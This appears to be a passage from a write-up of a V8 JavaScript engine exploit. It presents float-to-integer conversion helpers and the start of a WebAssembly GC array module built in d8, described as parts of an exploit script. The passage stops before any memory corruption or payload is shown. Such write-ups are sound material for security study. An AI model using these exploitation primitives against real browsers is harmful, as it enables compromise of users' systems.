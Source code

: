 ## Exploitation

### Helper Functions

```js
let fi_buf = new ArrayBuffer(8);
let f_buf = new Float64Array(fi_buf);
let i_buf = new BigUint64Array(fi_buf);

function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}


function lower(i) {
        return i&BigInt(0xffffffff);
}
function upper(i){ 
        return (i>>32n)&BigInt(0xffffffff);
}


function hex(i) {
        start = "";
        content = i.toString(16);
        return start + "0x" + content;
}

```

### Building WebAssembly Module
We can build a WebAssembly module using the wasm-module-builder.js in our exploit script.

```js
d8.file.execute(`test/mjsunit/wasm/wasm-module-builder.js`);

let builder = new WasmModuleBuilder();

let array = builder.addArray(kWasmI32, true);

builder.addFunction('createArray', makeSig([kWasmI32], [kWasmExternRef]))

  .addBody([

      kExprLocalGet, 0, 

      kGCPrefix, kExprArrayNewDefault, array,

      kGCPrefix, kExprExternConvertAny,

          ])

    .exportFunc();
```
`makeSig([kWasmI32], [kWasmExternRef])` defines the function signature, It takes a i32 parameter and returns an external reference.